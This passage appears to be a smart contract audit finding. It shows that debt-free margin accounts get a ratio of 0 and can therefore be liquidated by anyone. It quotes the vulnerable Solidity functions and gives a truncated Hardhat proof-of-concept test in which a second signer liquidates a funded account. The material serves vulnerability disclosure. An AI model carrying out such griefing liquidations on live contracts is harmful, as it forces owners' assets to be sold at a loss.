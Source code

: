 During liquidation, all the margin account's assets, e.g. tokens and options, will be converted to the base token (usually `USDC`). Not only, this is unpleasant for the margin account's owner, but furthermore, there might be a detrimental economical impact to have those assets liquidated at an unfavorable time without notice.

```solidity
function _calculatePortfolioRatio(uint marginAccountValue, uint debtWithAccruedInterest) private pure returns (uint marginAccountRatio) {
    if (debtWithAccruedInterest == 0) {
        return 0;  // @audit ratio is 0 when debt-free
    }
    require(marginAccountValue*COEFFICIENT_DECUMALS > debtWithAccruedInterest, "Margin Account value should be greater than debt with accrued interest");
    marginAccountRatio = marginAccountValue*COEFFICIENT_DECUMALS/debtWithAccruedInterest;
}

function getMarginAccountRatio(uint marginAccountID) public returns(uint) {
    uint marginAccountValue = calculateMarginAccountValue(marginAccountID);
    uint debtWithAccruedInterest = calculateDebtWithAccruedInterest(marginAccountID);
    return _calculatePortfolioRatio(marginAccountValue, debtWithAccruedInterest);  // @audit ratio is 0 when debt-free
}

function liquidate(uint marginAccountID) external {
    require(getMarginAccountRatio(marginAccountID) <= redCoeff, "Margin Account ratio is too high to execute liquidation");  // @audit will pass when ratio is 0
    marginAccount.liquidate(marginAccountID, BASE_TOKEN, marginAccountManager.ownerOf(marginAccountID));

    emit Liquidate(marginAccountID);
}
```

## Proof of Concept

Please add the following test case to `margin_trading.spec.ts` in order to reproduce the above liquidation griefing attack.

```typescript
it.only("liquidation griefing of debt-free account", async () => {
  await c.MarginAccountManager.connect(c.deployer).createMarginAccount();
  let WETHprovideAmount = parseUnits("1", await c.WETH.decimals());
  let USDCafterLiquidationAmount = parseUnits("4000", await c.USDC.decimals()); // here: 1 ETH = 4000 USD

  // fund margin account with WETH
  await expect(
    c.MarginTrading.connect(c.deployer).provideERC20(
      0,
      await c.WETH.getAddress(),
      WETHprovideAmount
    )
  ).to.changeTokenBalances(
    c.WETH,
    [await c.signers[0].getAddress(), await c.MarginAccount.getAddress()],
    [-WETHprovideAmount, WETHprovideAmount]
  );
  // expect account to be funded with WETH
  expect(
    await c.MarginAccount.getErc20ByContract(0, await c.WETH.getAddress())
  ).to.be.eq(WETHprovideAmount);

  // griefer liquidates account
  await c.MarginTrading.connect(c.signers[9]).liquidate(0);

```